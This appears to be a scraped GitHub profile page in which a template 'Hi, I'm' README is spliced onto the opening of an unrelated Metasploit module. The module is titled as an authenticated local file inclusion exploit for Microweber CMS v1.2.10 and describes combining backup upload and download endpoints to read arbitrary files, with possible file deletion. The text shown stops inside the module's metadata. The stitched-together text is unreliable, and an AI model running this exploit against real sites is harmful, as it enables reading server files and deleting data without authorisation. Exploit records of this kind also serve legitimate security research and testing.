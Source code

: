 - 👋 Hi, I’m @enesamaafkolan
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...


git clone https://github.com/enesamaafkolan/enesamaafkolan
# Exploit Title: Microweber CMS v1.2.10 Local File Inclusion (Authenticated)
# Date: 22.02.2022
# Exploit Author: Talha Karakumru <talhakarakumru[at]gmail.com>
# Vendor Homepage: https://microweber.org/
# Software Link: https://github.com/microweber/microweber/archive/refs/tags/v1.2.10.zip
# Version: Microweber CMS v1.2.10
# Tested on: Microweber CMS v1.2.10

##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Auxiliary
  prepend Msf::Exploit::Remote::AutoCheck
  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Microweber CMS v1.2.10 Local File Inclusion (Authenticated)',
        'Description' => %q{
          Microweber CMS v1.2.10 has a backup functionality. Upload and download endpoints can be combined to read any file from the filesystem.
          Upload function may delete the local file if the web service user has access.
        },
        'License' => MSF_LICENSE,
        'Author' => [
          'Talha Karakumru <talhakarakumru[at]gmail.com>'
        ],
        'References' => [
          ['URL', 'https://huntr.dev/bounties/09218d3f-1f6a-48ae-981c-85e86ad5ed8b/']
        ],
        'Notes' => {
          'SideEffects' => [ ARTIFACTS_ON_DISK, IOC_IN_LOGS ],
          'Reliability' => [ REPEATABLE_SESSION ],
          'Stability' => [ OS_RESOURCE_LOSS ]
